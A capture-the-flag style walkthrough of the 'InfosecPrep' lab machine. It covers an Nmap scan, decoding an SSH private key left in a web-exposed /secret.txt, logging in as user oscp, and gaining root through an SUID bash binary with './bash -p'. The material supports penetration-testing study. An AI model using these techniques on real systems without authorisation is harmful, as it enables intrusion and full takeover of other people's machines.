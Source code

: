 # PG Play - InfosecPrep

#### Ip: 192.168.166.89
#### Name: InfosecPrep
#### Difficulty: Easy
#### Community Rating: Easy

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `sC` and `-sV` flags to use basic scripts and to enumerate versions.

```text
┌──(ryan㉿kali)-[~/PG/InfosecPrep]
└─$ sudo nmap -p-  --min-rate 10000 192.168.166.89 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-01 12:01 CDT
Nmap scan report for 192.168.166.89
Host is up (0.079s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91ba0dd43905e31355578f1b4690dbe4 (RSA)
|   256 0f35d1a131f2f6aa75e81701e71ed1d5 (ECDSA)
|_  256 aff153ea7b4dd7fad8de0df228fc86d7 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/secret.txt
|_http-title: OSCP Voucher &#8211; Just another WordPress site
|_http-generator: WordPress 5.4.2
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|_    HY000
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.93%I=7%D=9/1%Time=64F218EB%P=aarch64-unknown-linux-gn
SF:u%r(NULL,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GenericLines,9,"\x05\0\0\0
SF:\x0b\x08\x05\x1a\0")%r(GetRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(H
SF:TTPOptions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(RTSPRequest,9,"\x05\0\0\
SF:0\x0b\x08\x05\x1a\0")%r(RPCCheck,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DN
SF:SVersionBindReqTCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSStatusRequest
SF:TCP,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a
SF:\x0fInvalid\x20message\"\x05HY000")%r(Help,9,"\x05\0\0\0\x0b\x08\x05\x1
SF:a\0")%r(SSLSessionReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x0
SF:8\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(TerminalServerC
SF:ookie,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TLSSessionReq,2B,"\x05\0\0\0\
SF:x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20mess
SF:age\"\x05HY000")%r(Kerberos,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SMBProg
SF:Neg,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(X11Probe,2B,"\x05\0\0\0\x0b\x08
SF:\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x
SF:05HY000")%r(FourOhFourRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LPDSt
SF:ring,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LDAPSearchReq,2B,"\x05\0\0\0\x
SF:0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20messa
SF:ge\"\x05HY000")%r(LDAPBindReq,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SIPOp
SF:tions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LANDesk-RC,9,"\x05\0\0\0\x0b\
SF:x08\x05\x1a\0")%r(TerminalServer,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NC
SF:P,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NotesRPC,2B,"\x05\0\0\0\x0b\x08\x
SF:05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05
SF:HY000")%r(JavaRMI,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(WMSRequest,9,"\x0
SF:5\0\0\0\x0b\x08\x05\x1a\0")%r(oracle-tns,9,"\x05\0\0\0\x0b\x08\x05\x1a\
SF:0")%r(ms-sql-s,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(afp,2B,"\x05\0\0\0\x
SF:0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20messa
SF:ge\"\x05HY000")%r(giop,9,"\x05\0\0\0\x0b\x08\x05\x1a\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.15 seconds

```

Heading to the site we see it is tunning WordPress:

site.png

Taking a look at `/secret.txt` listed in the Nmap output we find some base64 encoded text:

secret.png

We can copy this into https://gchq.github.io/CyberChef for decoding and we find it's actually an SSH key!

chef.png

Back on the WordPress site we find in the instructions `Oh yea! Almost forgot the only user on this box is “oscp”.`

After copying the SSH key into a file called id_rsa, we can use it to SSH in as user oscp:

### Exploitation

```text
┌──(ryan㉿kali)-[~/PG/InfosecPrep]
└─$ chmod 600 id_rsa                                      
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/InfosecPrep]
└─$ ssh -i id_rsa oscp@192.168.166.89                     
The authenticity of host '192.168.166.89 (192.168.166.89)' can't be established.
ED25519 key fingerprint is SHA256:OORLHLygIlTRZ4nXi9nq+WIrJ26fv7tfgvVHm8FaAzE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.166.89' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 01 Sep 2023 05:05:35 PM UTC

  System load:  0.0                Processes:             211
  Usage of /:   25.3% of 19.56GB   Users logged in:       0
  Memory usage: 60%                IPv4 address for eth0: 192.168.166.89
  Swap usage:   0%


0 updates can be installed immediately.
0 of these updates are security updates.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

-bash-5.0$ whoami
oscp
-bash-5.0$ hostname
oscp
```

We can now read the local.txt file:

user_flag.png

### Privilege Escalation

Lets transfer over LinPEAS to help with enumeration:

transfer.png

Cool, LinPEAS finds that bash has the SUID bit set:

bash.png

This should make for a really easy privesc.

Lets head over to https://gtfobins.github.io/gtfobins/bash/#suid and grab the command we'll need:

gtfo.png

We can run it just as GTFObins says:

```text
bash-5.0$ cd /usr/bin
bash-5.0$ ./bash -p
bash-5.0# whoami
root
bash-5.0# id
uid=1000(oscp) gid=1000(oscp) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd),1000(oscp)
```

We can now grab the final flag of the challenge:

root_flag.png

Thanks for following along!

-Ryan

-------------------------------------------